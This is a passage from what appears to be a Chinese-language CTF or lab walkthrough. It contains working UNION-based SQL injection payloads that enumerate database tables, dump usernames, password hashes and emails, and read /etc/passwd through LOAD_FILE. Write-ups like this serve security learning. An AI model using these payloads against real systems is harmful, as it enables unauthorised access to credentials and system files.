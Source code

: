 让我们看看`monitoring`数据库里面有什么。

```
a" UNION SELECT group_concat(table_name),2,3,4 FROM information_schema.tables where table_schema = 'monitoring' -- -
```

![image-20220906211314904](../../.gitbook/assets/image-20220906211314904.png)

这张`users`表看起来很有趣，所以让我们来看看。

```
a" UNION SELECT group_concat(column_name),2,3,4 FROM information_schema.columns where table_name = 'users' -- -
```

![image-20220906211029594](../../.gitbook/assets/image-20220906211029594.png)

```
a" UNION SELECT group_concat(username),group_concat(password),group_concat(email),4 FROM monitoring.users -- -
```

![image-20220906211206618](../../.gitbook/assets/image-20220906211206618.png)

太棒了，我们获得了有资格访问此监控页面的用户的用户名、密码哈希和电子邮件地址。不是那么棒，我们在很长一段时间后都没有设法破解它们。

因此，让我们继续阅读文件。

```
a" UNION SELECT LOAD_FILE('/etc/passwd'),2,3,4 as result -- -
```
